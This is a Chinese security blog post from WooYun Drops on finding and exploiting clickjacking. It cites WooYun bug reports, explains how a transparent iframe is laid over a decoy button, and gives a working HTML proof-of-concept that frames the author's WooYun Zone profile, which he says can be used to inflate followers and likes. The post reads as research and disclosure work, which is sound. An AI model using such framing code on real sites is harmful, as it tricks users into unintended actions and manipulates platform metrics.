 # clickjacking 漏洞的挖掘与利用

2014/11/10 16:25 | [px1624](http://drops.wooyun.org/author/px1624 "由 px1624 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章") | 占个座先 | 捐赠作者

0x00 简介

* * *

1 说起 clickjacking，很多人其实都不知道是干嘛的。比起 XSS 来说，clickjacking 显得比较神秘，乌云漏洞库里面的相关的漏洞也不到 10 条而已。

2 瞌睡龙之前发过一篇 clickjacking 的技术文档，主要是介绍 clickjacking 出现的原因，以及防御的方法。我这里主要是介绍，怎么寻找 clickjacking 以及怎么去利用。 [Clickjacking 简单介绍](http://drops.wooyun.org/papers/104)

提醒一下 click jacking 和 json hijacking 完全不是一个东西额，这里大家不要混淆了。

0x01 案例

* * *

1 ClickJacking

[腾讯微博 ClickhiJacking](http://wooyun.org/bugs/wooyun-2010-019683)

[新浪微博点击劫持刷粉丝](http://wooyun.org/bugs/wooyun-2010-048468)

2 Xss 结合 ClickJacking

[百度主站反射型 XSS 漏洞](http://wooyun.org/bugs/wooyun-2010-055526)

[百度贴吧贴内一处 Mouseover XSS 利用](http://wooyun.org/bugs/wooyun-2010-018358)

[百度翻译反射型 XSS（点击劫持 demo）](http://wooyun.org/bugs/wooyun-2010-072505)

可以看到配合 clickjacking，某些看起来比较鸡助的 XSS 或者不起眼的设置，也会产生比较严重的危害额。

0x02 实例讲解

* * *

说了这么多，不知道有么有理解。看下面的实例吧。

[用另一个低级的漏洞向豌豆荚用户手机后台静默推送并安装任意应用](http://wooyun.org/bugs/wooyun-2010-071676)

他这里是将自己设计了一个页面，然后上面伪造了一个领奖按钮，然后将 iframe 嵌套的原网页的推送与其领奖的按钮进行了重叠。

不过不知道是洞主笔误，还是洞主对于 clickjacking 的描述还是有一些错误。

![](http://drops.wooyun.org/wp-content/uploads/2014/11/111_jpg.jpg)

这里洞主的描述显然是有问题的。

正确的原理应该是这样，这个领奖的页面是在下面，而原 iframe 的那个页面在最上面。然后第一个图由于将 iframe 完全透明了，所以用户就只能看到下面的那个领奖页面。然后用户点击领奖，其实是点击了上层页面中的推送。

所以蓝色圈圈那个位置，应该是“上面”而不是“下面”。

0x03 Zone ClickJacking 挖掘

* * *

之前看到瞌睡龙的这个文章的下面，剑心说要赶紧给 zone 的感谢加上 clickjacking 的防御。

然后我看了下，zone 的感谢加了个 confrim，不过其实这种只是可以减轻 clickjacking 的威力，并不能得到根治啊，完全可以构造 2 个点骗用户点击的。

然后 zone 的关注、喜欢、不喜欢这些功能也没有防御，目测 zone 应该是完全没有防御 clickjacking。不过试了试，乌云主站还是对 clickjacking 进行了防御的，会检测 url 有么有被 iframe 嵌套。

下面给个测试 poc，有兴趣的可以自己研究研究更好的利用环境。

```
<html>
    <head>
        <meta charset="utf-8" />
        <title>clickjacking demo</title>
    </head>
    <div style="z-index:999;opacity:0.3;width:500px; height:500px;overflow:hidden;position:absolute;top:20px;left:20px;">
        <iframe id="inner" style="position:absolute;top:140px;width:1000px;height:500px;left:-484px;" src="http://zone.wooyun.org/user/px1624"></iframe>
    </div>
    <button id="anwoa" style="cursor:pointer;z-index:10px;position:absolute;top:225px;left:200px;text-align:center;width:100px;height:57px;">按我啊</button>
</html>

```

利用这个 clickjacking 的 poc 代码，就可以给自己刷点乌云 zone 的粉丝了。

同时，还可以给自己 zone 里面的帖子刷喜欢数量。据说这个喜欢数量可是和 zone 里面的领主算法息息相关的额!

版权声明：未经授权禁止转载 [px1624](http://drops.wooyun.org/author/px1624 "由 px1624 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [当渗透遇到 zabbix–小谈 zabbix 安全](http://drops.wooyun.org/tips/68)
*   [Debug Struts2 S2-021 的一点心得体会](http://drops.wooyun.org/papers/1778)
*   [mXSS 攻击的成因及常见种类](http://drops.wooyun.org/tips/956)
*   [SSLStrip 的未来 —— HTTPS 前端劫持](http://drops.wooyun.org/tips/3199)
*   [Browser Security-超文本标记语言（HTML）](http://drops.wooyun.org/tips/147)